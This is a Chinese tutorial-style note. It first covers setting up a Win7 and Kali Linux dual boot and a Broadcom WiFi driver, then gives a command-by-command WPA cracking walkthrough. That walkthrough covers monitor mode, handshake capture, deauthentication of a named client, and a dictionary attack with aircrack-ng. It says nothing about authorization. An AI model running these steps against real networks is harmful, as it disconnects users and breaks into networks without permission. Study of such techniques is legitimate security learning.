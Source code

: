 第七节:win7+ kali linux双系统 + 无线路由WiFi破解
================================================

.. figure:: http://pic.58pic.com/58pic/15/11/65/64e58PICwJr_1024.jpg
   :alt: 

前期一：失败---原因：经过多方查文第一次安装Linux成功，但是引导失败，原因就是微软的Easybcd不怎么支持efi装的系统，支持legal的系统。于是经过二次实战。从中午1点半非连续装机半完美解决于下午2点50
win7+kali Linux双系统装成功，并进入了正确引导。

后期实战：问题：1)kali linux裸装后无WiFi驱动，无法连接wif;2）kali linux
裸装后有线由于没有netkeeper客户端，故不能上网，故首先解决问题---上网问题.

上网问题完美解决方案：1)经过尝试后，发现有线可以在机房通过chinanet进行连接，故走WiFi+有线连接方式，未配置dns及子网掩码之类的，便可以直接上网；2)使用ChinaNet连上网后，查文，翻墙，Google技术论坛，预解决kali
linux的无线网络连接问题-----首要安装无线驱动----经过命令后，得到本机的驱动为博通bcm43142

解决方案
--------

::

    1、编辑/etc/apt/sources.list 在文件最后加

    deb http://http.debian.net/debian/ jessie main contrib non-free
    ----------------2-5都是在端-----------------------
    2、 apt-get update

    3、apt-get install linux-headers-$(uname -r|sed 's,[^-]*-[^-]*-,,') broadcom-sta-dkms

    4、modprobe -r b44 b43 b43legacy ssb brcmsmac

    5、modprobe wl
    6、成功-------------以上来源debian官网

但是路途并不是这么畅通：使用apt-get命令过程中报错，解决方案： ###
1）系统更新

-  在sources.list中添加源 命令如下： ``leafpad /etc/apt/sources.list``

然后复制粘贴下面的源

::

    #阿里云kali源
    deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb http://mirrors.aliyun.com/kali-security kali-rolling/updates main contrib non-free
    deb-src http://mirrors.aliyun.com/kali-security kali-rolling/updates main contrib non-free

    #中科大kali源
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb http://mirrors.ustc.edu.cn/kali-security kali-current/updates main contrib non-free
    deb-src http://mirrors.ustc.edu.cn/kali-security kali-current/updates main contrib non-free `

然后更新并安装

::

    `apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y  `

2)安装内核头
~~~~~~~~~~~~

直接使用上面源来升级内核

如下命令查看版本：

::

    ~# uname -r

这时候使用命令

::

    apt-get install linux-headers-$(uname -r)

这样就可以了，但是我实践的时候碰到下面问题

::

    命令：
    apt-get install linux-headers-$(uname -r)
    出现如下错误：
    E: Unable to locate package linux-headers-4.3.0-kali1-amd64
    E: Couldn't find any package by glob 'linux-headers-4.3.0-kali1-amd64
    E: Couldn't find any package by regex 'linux-headers-4.3.0-kali1-amd64

    翻遍Google,得到解决方案,如下:
    1.下载inux-kbuild,链接:(http://http.kali.org/kali/pool/main/l/linux-tools/)具体版本参见自己的主机；
    2.编译linux-kbuild;
    dkpg -i linux-kbuild-4.3_4.3.1-2kali1_amd64.deb

    3.下载linux-header-common和主机版本对应的linux-header。链接（http://http.kali.org/kali/pool/main/l/linux/）,具体版本参见自己的主机
    4.首先编译linux-header-common
    dkpg -i linux-headers-4.3.0-kali1-common_4.3.3-5kali4_amd64.deb
    5.最后编译linux-header
    dkpg -i linux-headers-4.3.0-kali1-amd64_4.3.3-5kali4_amd64.deb

于是乎，经过百般折腾后，WiFi启用成功！

网络之旅踏上新征程！

最后要实践的就是无线路由WiFi破解
--------------------------------

1）首先断开连接的wifi。
~~~~~~~~~~~~~~~~~~~~~~~

在终端中执行：

::

    # airmon-ng

上面命令列出了支持监控模式的无线网卡。如果没有任何输出，表示无线网卡不支持监控模式。你可以看到我的wlan0支持监控模式。

2）开启无线网卡的监控模式
~~~~~~~~~~~~~~~~~~~~~~~~~

::

    # airmon-ng start prism0

执行成功之后网卡接口变为prism0；可以使用ifconfig命令查看。

3）查看wifi网络
~~~~~~~~~~~~~~~

::

    # airodump-ng prism0

上面列出了周围的wifi和它们的详细信息，包括信号强度、加密类型、频道等。要记住要破解wifi的频道号和BSSID。
按Ctrl-C结束。

4）抓取握手包
~~~~~~~~~~~~~

使用网卡的监听模式抓取周围的无线网络数据包。其中，对我们最重要的数据包是：包含密码的包－也叫握手包。当有新用户或断开用户自动连接wifi时，会发送握手包。
开始抓包：

::

    # airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 -w ~/ prism0

参数解释： -c指定频道号 –bssid指定路由器bssid -w指定抓取的数据包保存位置

5）强制连接到wifi的设备重新连接路由器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

现在我们只要等用户连接/重连接wifi了，运气不好也许要很长时间。
但是我们是不会等的，这不是耐心黑客该干的事。有一个叫aireplay-ng的工具，它可以强制用户断开wifi连接；原理是，给连接到wifi的一个设备发送一个deauth（反认证）包，让那个设备断开wifi，随后它自然会再次连接wifi。
aireplay-ng的生效前提是，wifi网络中至少有一个连接的设备。从上图(4)可以看到哪些设备连接到了wifi，STATION就是连接设备的MAC地址，记住一个。
打开新终端执行：

::

    # aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C prism0

参数解释： -0指定发送反认证包的个数 -a指定无线路由器BSSID
-c指定强制断开的设备

如果成功：

按Ctrl-C结束抓包。
我们已经得到了想要的握手包了，可以结束无线网卡的监控模式了：

::

    # airmon-ng stop prism0

6) 开始破解密码
~~~~~~~~~~~~~~~

::

    # aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap

参数解释： -a2代表WPA的握手包 -b指定要破解的wifi BSSID。 -w指定字典文件
最后是抓取的包

附录
----

1.实践中apt之类的命令报错
~~~~~~~~~~~~~~~~~~~~~~~~~

请更新源，我当初尝试安装flash报错就是这样解决的;

2.参考文章
~~~~~~~~~~

http://www.linuxdiyf.com/linux/24060.html
http://blog.csdn.net/wei83523408/article/details/50621180
http://blog.csdn.net/chen86860/article/details/52034365
http://www.mottoin.com/88941.html

最后感谢各位道友的帮助，耗时半天的征程划伤圆满的句号！

